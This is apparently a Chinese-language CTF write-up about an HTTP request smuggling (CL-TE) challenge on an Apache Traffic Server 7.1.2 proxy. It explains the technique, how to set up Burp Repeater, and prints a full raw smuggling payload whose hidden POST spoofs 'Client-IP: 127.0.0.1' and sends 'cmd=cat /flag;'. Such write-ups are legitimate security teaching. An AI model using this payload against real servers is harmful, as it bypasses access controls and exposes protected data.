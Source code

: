 ```
ONLY LOCALHOST(127.0.0.1) CAN ACCESS THE SECRET_DATA!
YOUR Client-IP(Client-IP NOT FOUND IN HEADERS!) IS NOT ALLOWED!
```

尝试Postman请求加个`Client-IP`头

```
ONLY LOCALHOST(127.0.0.1) CAN ACCESS THE SECRET_DATA!<br>YOUR Client-IP([CURRENT IP]) IS NOT ALLOWED!
```

发现并没有什么用，于是开始想是不是考察服务器本身的问题，因为返回头里有一个之前没见过的`Server: ATS/7.1.2`

于是百度，偶然发现一篇D3CTF的wp里提到了这个服务有HTTP请求走私的问题，再一看题目标题，答案就已经很显然了（此处自行脑补高考出场接受采访表情包，虽然我跟别人差远了）

简单来说就是反代和后端服务器处理请求的方式不同，而HTTP协议的解析依赖换行`\r\n`，导致原本请求的Body被当成了请求头

具体的东西我其实也没完全搞明白，根据[协议层的攻击：HTTP请求走私](https://blog.csdn.net/weixin_44058342/article/details/102503140)这篇文章，这题是`CL-TE`的情况

这种情况的利用要求不正确的`Content-Length`，Postman已经不够用了，祭出许久没用的Burp，抓包后丢进Repeater里修改

这里有坑，Burp默认也会帮你计算`Content-Length`，需要手动取消勾选菜单栏的`Repeater`->`Update Content-Length`项

payload里的host甚至都是原题，当时懒得改

```
GET /secret HTTP/1.1
Host: 024ac2afef.showhub.d3ctf.io
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36
DNT: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh,en;q=0.9,zh-CN;q=0.8
Cookie: PHPSESSID=cgdbdc2211g074rnbklem2fv5k
Content-Length: 282
Transfer-Encoding: chunked

0


POST /secret HTTP/1.1
Host: 024ac2afef.showhub.d3ctf.io
Client-IP: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=cgdbdc2211g074rnbklem2fv5k
Content-Length: 30

cmd=cat /flag;
```

